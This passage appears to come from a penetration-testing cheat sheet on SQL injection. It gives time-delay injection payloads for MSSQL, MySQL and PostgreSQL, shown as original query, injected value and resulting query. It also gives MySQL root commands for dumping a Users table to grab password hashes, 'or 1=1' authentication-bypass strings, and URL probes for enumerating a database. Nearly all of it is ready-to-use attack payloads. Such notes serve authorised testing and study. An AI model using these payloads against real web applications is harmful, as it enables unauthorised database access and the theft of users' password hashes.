           - *Original Query*
            
            `SELECT * FROM products WHERE name='Test';`

          - *Injection Value*
          
            `'; WAITFOR DELAY '00:00:30'; --`

          - *Resulting Query*
         
            `SELECT * FROM products WHERE name='Test'; WAITFOR DELAY '00:00:30'; --`

        - **MySQL Injection Time Delay Detection:**
        Add a 30 second delay to a MySQL Query
      
          - *Original Query*
            
            `SELECT * FROM products WHERE name='Test';`

          - *Injection Value*
          
            `'-SLEEP(30); #`

          - *Resulting Query*
         
            `SELECT * FROM products WHERE name='Test'-SLEEP(30); #`


        - **PostGreSQL Injection Time Delay Detection:**
        Add a 30 second delay to an PostGreSQL Query
      
          - *Original Query*
            
            `SELECT * FROM products WHERE name='Test';`

          - *Injection Value*
          
            `'; SELECT pg_sleep(30); --`

          - *Resulting Query*
         
            `SELECT * FROM products WHERE name='Test'; SELECT pg_sleep(30); --`

    -   Grab password hashes from a web application mysql database called “Users” - once you have the MySQL root username and        password  
    
              mysql -u root -p -h $ip
              use "Users"  
              show tables;  
              select \* from users;

    -   Authentication Bypass  
    
              name='wronguser' or 1=1;  
              name='wronguser' or 1=1 LIMIT 1;

    -   Enumerating the Database  
    
        `http://192.168.11.35/comment.php?id=738)'`  
        
        Verbose error message?  
        
        `http://$ip/comment.php?id=738 order by 1`
        
